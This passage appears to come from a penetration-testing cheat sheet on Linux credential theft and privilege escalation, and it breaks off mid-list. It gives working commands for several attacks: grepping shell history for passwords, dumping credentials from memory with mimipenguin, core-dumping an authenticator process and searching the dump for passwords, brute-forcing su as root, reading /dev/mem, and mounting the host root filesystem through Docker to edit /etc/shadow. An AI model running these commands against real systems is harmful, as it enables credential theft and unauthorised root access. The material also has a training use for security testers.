    ```
    history |grep -i -E '\-p|\-pass|\-password|*:*|*@*|passwd'
    ```
* **Searching for “password” on machine Files**
* **Process Dump**
*   **Memory Dump & Search For Credentials**

    [**https://github.com/huntergregal/mimipenguin**](https://github.com/huntergregal/mimipenguin)

    ```
    ./mimipenguin.sh
    ```
*   **Authenticator Process Dump & Search For Credentials**

    **Locate Process**

    ```
    ps -ef **|** grep "authenticator"
    ```

    **Using gcore**

    ```
    gcore 628868 ; strings core*|grep -i pass
    ```

    **Using procdump**

    ```
     procdump -p 628868  -o dump2.txt ;cat dump2.txt* | grep --binary-files=text -i pass > analyze.txt
    ```
*   **Sudo Password Brute Force**

    [**https://github.com/carlospolop/su-bruteforce**](https://github.com/carlospolop/su-bruteforce)

    ```
    ./suBF.sh -u root -w passwords.txt -t 0.5 -s 0.003
    ```
*   **/dev/mem Search**

    \*\*`/dev/mem`\*\*provides access to the system’s **physical** memory, not the virtual memory

    ```
    strings /dev/mem  | grep -i PASSword
    ```

## **Docker PE Exploitation**

* **Through Docker We Can mount host system files to an image and run image and Edit its files \[image files+host system files]**
*   **Mount host file system in Linux docker container you can**

    ```
    sudo docker run -v /:/mnt --rm -it alpine chroot /mnt sh
    ```
*   **Edit this mounted files \[/etc/shadow] because You are root in Linux Container**
